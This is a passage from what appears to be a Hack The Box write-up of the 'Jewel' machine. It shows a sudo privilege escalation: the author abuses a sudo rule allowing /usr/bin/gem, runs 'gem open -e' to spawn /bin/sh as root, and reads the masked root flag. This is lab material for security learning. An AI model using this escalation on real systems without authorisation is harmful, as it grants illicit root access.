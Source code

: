     
    
    sudo gem open -e "/bin/sh -c /bin/sh" rdoc
    

I’ll give it a try, and it works:

    
    
    bill@jewel:~$ sudo -l                                            
    [sudo] password for bill: 
    Verification code: 
    Matching Defaults entries for bill on jewel:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        insults
    
    User bill may run the following commands on jewel:
        (ALL : ALL) /usr/bin/gem
    bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
    # id
    uid=0(root) gid=0(root) groups=0(root)
    

And I can grab `root.txt`:

    
    
    # cat /root/root.txt
    d6386b83************************
    

[](/2021/02/13/htb-jewel.html)

